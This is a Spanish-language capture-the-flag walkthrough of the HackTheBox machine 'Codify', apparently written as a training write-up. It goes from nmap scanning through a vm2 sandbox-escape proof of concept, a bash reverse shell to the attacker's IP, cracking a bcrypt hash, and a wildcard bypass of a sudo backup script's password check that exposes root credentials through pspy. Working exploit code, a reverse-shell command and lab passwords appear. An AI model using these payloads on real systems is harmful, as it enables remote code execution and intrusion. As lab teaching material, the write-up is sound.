

# Codify

`Codify` es una sencilla máquina Linux que cuenta con una aplicación web que permite a los usuarios probar el código `Node.js`. La aplicación utiliza una biblioteca `vm2` vulnerable, que se aprovecha para obtener la ejecución remota de código. Al enumerar el objetivo se revela una base de datos `SQLite` que contiene un hash que, una vez descifrado, otorga acceso `SSH` al equipo. Finalmente, se puede ejecutar un script `Bash` vulnerable con privilegios elevados para revelar la contraseña del usuario `root`, lo que genera acceso privilegiado a la máquina.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Codify**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.239 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-14 17:40 CET
Initiating SYN Stealth Scan at 17:40
Scanning 10.10.11.239 [65535 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 17:40, 17.95s elapsed (65535 total ports)
Nmap scan report for 10.10.11.239
Host is up, received user-set (0.18s latency).
Scanned at 2025-02-14 17:40:41 CET for 17s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.04 seconds
           Raw packets sent: 67123 (2.953MB) | Rcvd: 67133 (2.686MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.239
	[*] Open ports: 22,80,3000

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache`, un framework de `Node.js` y el servicio de `SSH`.

```bash
❯ nmap -sCV -p22,80,3000 10.10.11.239 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-14 17:42 CET
Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.088s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Codify
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   112.21 ms 10.10.16.1
2   44.32 ms  codify.htb (10.10.11.239)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.85 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep codify
10.10.11.239 codify.htb
```

## Initial Foothold

### Web Enumeration

Accederemos a [http://codify.htb](http://codify.htb) y verificaremos que se trate de una aplicación web que permite probar código `Node.js` sin necesidad de ninguna configuración o instalación. Esta aplicación web utiliza por detrás una `sandbox` para ejecutar el código en un entorno seguro y protegido, sin ningún acceso al sistema subyacente.

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de directorios y páginas web a través de `dirsearch`. Nos devuelve el siguiente resultado.

```bash
❯ dirsearch -u 'http://codify.htb' -t 50 -i 200 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Codify/Codify/reports/http_codify.htb/_25-02-14_17-47-17.txt

Target: http://codify.htb/

[17:47:17] Starting: 
[17:47:26] 200 -    1KB - /about
[17:47:26] 200 -    1KB - /About
[17:47:49] 200 -    1KB - /editor/
[17:47:49] 200 -    1KB - /editor

Task Completed
```

Al acceder a [http://codify.htb/editor](http://codify.htb/editor), nos encontramos con una página en la cual podemos inyectar el código `Node.js` y al darle a la opción de `Run` se nos mostrará el resultado en la zona derecha.

<figure><figcaption></figcaption></figure>

Revisando la página web [http://codify.htb/about](http://codify.htb/about), nos encontramos con la siguiente información.


Codify es una plataforma para probar código Node.js de forma sencilla y segura. Su equipo, formado por desarrolladores experimentados, busca facilitar el desarrollo con herramientas confiables.

Su editor de código permite escribir y ejecutar JavaScript en el navegador, usando la biblioteca `vm2` para aislar el código y garantizar un entorno seguro.


<figure><figcaption></figcaption></figure>

### Sandbox Escape in vm2@3.9.16 - Command Injection (Remote Code Execution)

Al hacer `hovering` sobre el hipervínculo de `vm2`, se nos indica lo que parece ser la versión exacta que utiliza la página web de `Codify`.

<figure><figcaption></figcaption></figure>

Realizando una búsqueda por Internet de posibles vulnerabilidades de la biblioteca `vm2`, nos encontramos con el siguiente repositorio de GitHub.

<figure><figcaption></figcaption></figure>



En el repositorio de GitHub, se nos proporciona un PoC para realizar la explotación de la vulnerabilidad y poder escapar del `Sandbox` de la aplicación web de `Codify`. En este caso, lo que realizará es mostrar el resultado del binario `/usr/bin/id`.

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo /usr/bin/id');
}
`

console.log(vm.run(code));
```


Al inyectar el siguiente código malicioso y darle a la opción de `Run`, comprobamos que en el resultado que nos muestra el servidor, nos aparece el resultado de la ejecución del comando `echo /usr/bin/id`. Con lo cual, parece ser que podemos llegar a inyectar comandos y lograr finalmente un`Remote Code Execution`, además comprobamos que el usuario que ha ejecutado el comando es `svc`.

<figure><figcaption></figcaption></figure>

Teniendo esto presente, el siguiente paso será lograr obtener acceso al sistema. Con lo cual, con la herramienta de `nc` nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

En `Codify`, inyectaremos el siguiente código malicioso que nos permitirá ejecutar la Reverse Shell.

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('/bin/bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"');
}
`

console.log(vm.run(code));
```


<figure><figcaption></figcaption></figure>

Verificamos que hemos conseguido el acceso a la máquina víctima con el usuario `svc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.239] 35090
bash: cannot set terminal process group (1260): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$
```

## Initial Access

### Information Leakage

Revisaremos los grupos a os que formamos parte a través del usuario `svc`, por otro lado, intentamos comprobar si disponemos de permisos de `sudoers` pero nos requiere proporcionar credenciales que no disponemos.

Revisamos el archivo `/etc/passwd` y comprobamos los usuarios del sistema que disponen de `bash`.

```bash
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)

svc@codify:~$ sudo -l
[sudo] password for svc: 
sudo: a password is required

svc@codify:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
```

Enumerando el directorio de `/var/www/contact` nos encontramos con el archivo `tickets.db` de una base de datos de SQLite. Al analizar el archivo, comprobamos que se nos muestran las credenciales del usuario `joshua`.

```bash
svc@codify:/var/www/contact$ strings tickets.db 
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
	tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    ))
indexsqlite_autoindex_users_1users
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

Intentaremos crackear el hash obtenido a través de `hashcat`y finalmente logramos obtener las credenciales en texto plano.

```bash
❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Dado que el servicio de `SSH` se encuentra expuesto, nos conectaremos directamente al equipo y finalmente logramos visualizar la flag de **user.txt**.

```bash
❯ ssh joshua@codify.htb
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

Last login: Wed Mar 27 13:01:24 2024 from 10.10.14.23

joshua@codify:~$ cat user.txt 
745818a77e7*********************
```

## Privilege Escalation

### Abusing sudoers privilege

Revisaremos los grupos que forma parte este nuevo usuario que disponemos pero comprobamos que no dispone de ningún grupo interesante.

Al revisar los permisos de `sudoers` nos encontramos que podemos ejecutar como usuario `sudo` el script localizado en `/opt/scripts/mysql-backup.sh`.

```bash
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

### mysql-backup.sh Script Vulnerabilities

Revisaremos el contenido del script `mysql-backup.sh`.

```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Este script en Bash realiza las siguientes acciones.

<figure><figcaption></figcaption></figure>

Tratamos de ejecutar el script para verificar el funcionamiento, pero nos pide proporcionar las credenciales del usuario `root` del `MySQL`.

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmation failed!
```

### Bypass + Monitor (Pspy)

El script original verifica la contraseña de MySQL con la siguiente condición en Bash:

```sql
if [[ $DB_PASS == $USER_PASS ]]; then
```

Sin embargo, esta validación puede ser vulnerable a un bypass cuando se utiliza el carácter `*` en la variable `DB_PASS`. En Bash, el `*` es un comodín que coincide con cualquier valor, lo que hace que la comparación del `if` siempre sea verdadera, independientemente del valor de la contraseña ingresada.

Por ejemplo, si un atacante inserta `*` en la variable `USER_PASS`, la condición `if` se evaluará como verdadera, permitiendo el bypass de la verificación.

**Posible Exposición de Contraseña a través de Procesos**

Tras realizar el bypass, un atacante podría intentar observar los procesos en ejecución para obtener las credenciales. Si el script está interactuando con la base de datos o realizando operaciones donde la contraseña esté presente en los parámetros o el entorno del proceso, es posible que la contraseña se pueda ver revisando los procesos del sistema como `Pspy`.

En este caso, intentamos realizar el `Bypass` descrito y verificamos que logramos ejecutar el script correctamente ingresando `*` como credenciales.

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

En nuestro equipo loca, deberemos de compartir el binario de `pspy64`.

```bash
❯ ls -l pspy64
.rwxr-xr-x kali kali 3.0 MB Tue Jan 17 22:09:52 2023  pspy64

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En el equipo víctima, nos descargaremos `pspy64`y le daremos los permisos correspondientes.

```bash
joshua@codify:~$ wget 10.10.16.7/pspy64
--2025-02-14 17:23:40--  http://10.10.16.7/pspy64
Connecting to 10.10.16.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                                    100%[==================================================================================================================================>]   2.96M  1.20MB/s    in 2.5s    

2025-02-14 17:23:42 (1.20 MB/s) - ‘pspy64’ saved [3104768/3104768]

joshua@codify:~$ chmod +x pspy64
```

Ejecutaremos en una terminal el `pspy64` para analizar todos los procesos que se vayan ejecutando a tiempo real.

```bash
joshua@codify:~$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/02/14 17:25:00 CMD: UID=1000  PID=2282   | ./pspy64 
2025/02/14 17:25:00 CMD: UID=1000  PID=2270   | -bash 
2025/02/14 17:25:00 CMD: UID=1000  PID=2269   | sshd: joshua@pts/0   
2025/02/14 17:25:00 CMD: UID=0     PID=2211   | 
```

Ejecutaremos el script como`sudo` desde otra terminal distinta(nos conectamos con otra terminal con el usuario `joshua`).

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Después de ejecutar 2-3 veces el script, verificamos que la herramienta de `pspy64` logra obtener el proceso de acceder al `MySQL` con las credenciales que se encuentran en `/root/.creds`

```bash
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done

...[snip]...

2025/02/14 17:28:08 CMD: UID=0     PID=2428   | /bin/bash /opt/scripts/mysql-backup.sh 
2025/02/14 17:28:08 CMD: UID=0     PID=2430   | /bin/bash /opt/scripts/mysql-backup.sh 
2025/02/14 17:28:08 CMD: UID=0     PID=2429   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES; 
```

Intentamos revisar si estas credenciales se reutilizan para el usuario `root`, logramos convertirnos y visualizar la flag de **root.txt**.

```bash
joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# cat /root/root.txt 
16a752da1ccc4*******************
```
